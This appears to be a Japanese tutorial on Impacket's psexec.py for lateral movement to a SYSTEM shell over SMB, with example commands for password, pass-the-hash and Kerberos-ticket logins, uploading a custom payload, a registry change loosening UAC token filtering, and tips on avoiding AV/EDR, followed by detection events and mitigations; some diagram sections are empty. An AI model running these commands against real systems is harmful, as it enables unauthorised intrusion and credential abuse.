




## TL;DR

`psexec.py` は、Sysinternals PsExec の古典的な技術を Impacket で実装したものです。SMB 経由でターゲットの Windows マシンに接続し、`ADMIN$` 共有にサービスバイナリをアップロードして Windows サービスを作成・起動し、名前付きパイプを通じて通信することで、**NT AUTHORITY\\SYSTEM** として動作するインタラクティブシェルを提供します。

---

## psexec.py でできること

| 機能 | 詳細 |
|---|---|
| リモート SYSTEM シェル | ターゲット上で SYSTEM として動作するシェルを起動 |
| パスワード認証 | 標準的なユーザー名 + パスワード |
| Pass-the-Hash (PTH) | NTLM ハッシュで認証 — 平文パスワードが不要 |
| Pass-the-Ticket (PTK) | Kerberos TGT で認証 |
| カスタムコマンドの実行 | `-c` でカスタムバイナリをアップロードして実行 |
| インタラクティブシェル | デフォルト動作 — インタラクティブな `cmd.exe` プロンプト |
| 自己クリーンアップ | 終了時にアップロードしたサービスバイナリとサービスを削除 |

---

## psexec.py でできないこと

| 制限 | 理由 |
|---|---|
| 管理者権限なしでの動作 | `ADMIN$` への書き込みアクセスと SCM 経由でのサービス作成・起動権限が必要 |
| SMB (ポート 445) がブロックされている環境での動作 | 完全に SMB 依存 — フォールバックプロトコルなし |
| `ADMIN$` 共有が無効な環境での動作 | バイナリは `ADMIN$`（`C:\Windows` にマップ）にアップロードされる |
| 現代の AV / EDR の回避 | サービスバイナリをディスクに書き込む — Windows Defender や EDR ソリューションで検知されやすい |
| SYSTEM 以外の特定ユーザーでの実行 | 起動したサービスは常に SYSTEM として動作 |
| 永続的なバックドアの提供 | セッション終了時にサービスとバイナリは削除される |
| 制限された LocalSystem アカウントへの攻撃 | `LocalAccountTokenFilterPolicy` が設定されていない場合、ローカル管理者アカウントはネットワーク越しにフィルタリングされたトークンを取得する |

---

## 内部メカニズム



---

## 認証フロー

### パスワード認証



### Pass-the-Hash (PTH)



> Pass-the-Hash が有効なのは、NTLM 認証がハッシュを直接使ってチャレンジレスポンスに署名するためです。平文パスワードを知っている必要はありません。

---

## 攻撃全体のフロー



---

## 使いどころ

### 標準パスワード認証

```bash
psexec.py <DOMAIN>/<USER>:<PASSWORD>@<TARGET_IP>

# 例
psexec.py corp.local/administrator:Password1@10.10.10.50
```

### ローカルアカウント（ドメインなし）

```bash
psexec.py ./<LOCAL_ADMIN>:<PASSWORD>@<TARGET_IP>

# 例
psexec.py ./administrator:Password1@10.10.10.50
```

### Pass-the-Hash

```bash
# LM ハッシュは通常空（aad3b435b51404eeaad3b435b51404ee）
psexec.py <DOMAIN>/<USER>@<TARGET_IP> -hashes <LM_HASH>:<NT_HASH>

# 空の LM ハッシュを使った例
psexec.py corp.local/administrator@10.10.10.50 -hashes aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c
```

### Pass-the-Ticket（Kerberos）

```bash
# 事前に KRB5CCNAME 環境変数にチケットを設定する
export KRB5CCNAME=/tmp/administrator.ccache
psexec.py -k -no-pass corp.local/administrator@dc01.corp.local
```

### ターゲット上でカスタムバイナリを実行

```bash
# カスタムペイロードをアップロードして実行
psexec.py corp.local/administrator:Password1@10.10.10.50 -c /local/path/to/payload.exe
```

### 特定コマンドの実行（非インタラクティブ）

```bash
psexec.py corp.local/administrator:Password1@10.10.10.50 cmd.exe /c whoami
```

---

## 主なオプション

| フラグ | 説明 |
|---|---|
| `-hashes <LM:NT>` | Pass-the-Hash 認証 |
| `-k` | Kerberos 認証を使用 |
| `-no-pass` | パスワードプロンプトをスキップ（`-k` と併用） |
| `-c <file>` | カスタムバイナリをアップロードして実行 |
| `-path <path>` | ターゲット上でバイナリをコピーするパス（デフォルト: `ADMIN$`） |
| `-service-name <name>` | カスタムサービス名（デフォルト: ランダム） |
| `-port <port>` | ターゲットポート（デフォルト: 445） |
| `-dc-ip <ip>` | ドメインコントローラーの IP（Kerberos 使用時） |

---

## psexec.py と類似 Impacket ツールの比較

| ツール | トランスポート | 必要な権限 | シェルのユーザー | AV への露出 |
|---|---|---|---|---|
| `psexec.py` | SMB + SCM | ローカル/ドメイン管理者 | SYSTEM | 高（バイナリをディスクに書き込む） |
| `smbexec.py` | SMB + SCM | ローカル/ドメイン管理者 | SYSTEM | 低（バイナリ書き込みなし） |
| `wmiexec.py` | WMI (DCOM) | ローカル/ドメイン管理者 | 実行ユーザー | 低（サービス作成なし） |
| `atexec.py` | SMB + タスクスケジューラ | 管理者 | SYSTEM | 中程度 |
| `dcomexec.py` | DCOM | 管理者 | 実行ユーザー | 低 |

**代替ツールを選ぶべき場面:**
- AV/EDR が存在する → `wmiexec.py` または `smbexec.py`（バイナリをディスクに書き込まない）
- ファイアウォールが SMB をブロックしている → `wmiexec.py`（DCOM/RPC ポート 135 + 動的ポートを使用）
- 特定ユーザーとして実行する必要がある → `wmiexec.py`（SYSTEM ではなく認証済みユーザーとして動作）

---

## `LocalAccountTokenFilterPolicy` の注意点

ローカル管理者アカウント（ドメインアカウントではない）を使用する場合、Windows はデフォルトでネットワーク越しに **UAC トークンフィルタリング**を適用します。セッションがフィルタリングされた（昇格していない）トークンを取得するため、正しい資格情報でもアクセス拒否エラーが発生します。

```powershell
# ターゲット側での修正 — ネットワーク越しのローカル管理者にフルトークンを許可
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

**ドメイン** Administrator やドメイン管理者アカウントに対しては不要です — これらは常にフルトークンを取得します。

---

## 検知と防御

### Blue Team の指標

| イベント ID | ソース | 注目すべき内容 |
|---|---|---|
| 7045 | System | 新しいサービスのインストール — ランダムなサービス名、`C:\Windows\` 以下のバイナリ |
| 7036 | System | 短時間でのサービス状態変化（起動 → 停止） |
| 4624 | Security | 予期しない送信元 IP からのネットワークログオン（タイプ 3） |
| 4648 | Security | 明示的な資格情報によるログオン |
| 5140 | Security | `ADMIN$` 共有へのアクセス |

数秒以内にサービスが出現して消滅し、外部 IP から `ADMIN$` アクセスが確認される場合は、psexec の強力なシグナルです。

### 緩和策

```powershell
# ADMIN$ 共有を無効化（psexec.py を無効化するが、正規の管理ツールも影響を受ける）
reg add HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters /v AutoShareWks /t REG_DWORD /d 0 /f

# Windows ファイアウォールルールで ADMIN$ への接続を制限する
# 管理ホスト以外からのインバウンド SMB をブロック

# Windows Defender Credential Guard を有効化して NTLM ハッシュを保護
```

- LSASS からの NTLM ハッシュ抽出を防ぐために **Credential Guard** を適用する
- **LAPS**（Local Administrator Password Solution）を使用してマシンごとに固有のローカル管理者パスワードを設定する — PTH によるラテラルムーブメントを制限できる
- ホストベースのファイアウォールルールで SMB アクセスを制限する（ジャンプホストや管理ネットワークからのみ許可）
- **サービス作成イベント (7045)** で短命かつランダムな名前のサービスを監視する
- **Microsoft Defender for Endpoint** を展開する — psexec パターンをすぐに検知できる

---

## 参考資料

- [Impacket — psexec.py ソース](https://github.com/fortra/impacket/blob/master/examples/psexec.py)
- [Microsoft — PsExec ドキュメント](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)
- [MITRE ATT&CK — T1021.002 SMB/Windows Admin Shares](https://attack.mitre.org/techniques/T1021/002/)
